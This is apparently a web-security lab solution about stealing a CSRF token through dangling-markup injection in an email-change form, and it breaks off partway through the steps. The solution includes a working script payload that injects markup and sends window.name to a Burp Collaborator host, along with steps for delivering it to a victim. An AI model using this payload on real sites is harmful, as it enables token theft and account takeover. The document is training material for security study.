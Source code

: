 Vulnerable code

```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
                            <label>Email</label>
                            <input required="" type="email" name="email" value="">
                            <input required="" type="hidden" name="csrf" value="dF5K8IOMptyUa0xGK8Zfpx157JtA6zFk">
                            <button class="button" type="submit"> Update email </button>
</form>
```

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
				<ol>
					<li>
						Log in to the lab using the account provided above.
					</li>
					<li>
						Examine the change email function. Observe that there is an XSS vulnerability in the <code>email</code> parameter.
					</li>		
					<li>
						Go to the Burp menu and launch the Burp Collaborator client.
					</li>
					<li>
						Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
					</li>
					<li>
						<p>
							Back in the lab, go to the exploit server and add the following code, replacing <code>your-lab-id</code> and <code>your-exploit-server-id</code> with your lab ID and exploit server ID respectively, and replacing <code>your-collaborator-id</code> with the payload that you just copied from Burp Collaborator.
						</p>
						<code class="code-scrollable">&lt;script&gt;
if(window.name) {
	new Image().src='//BURP-COLLABORATOR-SUBDOMAIN?'+encodeURIComponent(window.name);
	} else {
		location = 'https://YOUR-LAB-ID.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
&lt;/script&gt;</code>
					</li>
					<li>
						Click "Store" and then "Deliver exploit to victim". When the user visits the website containing this malicious script, if they click on the "Click me" link while they are still logged in to the lab website, their browser will send a request containing their CSRF token to your malicious website. You can then steal this CSRF token using the Burp Collaborator client.
					</li>
					<li>
						Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see an HTTP interaction that was initiated by the application. Select the HTTP interaction, go to the request tab, and copy the user's CSRF token.
					</li>
					<li>
						With Burp's Intercept feature switched on, go back to the change email function of the lab and submit a request to change the email to any random address.
					</li>
					<li>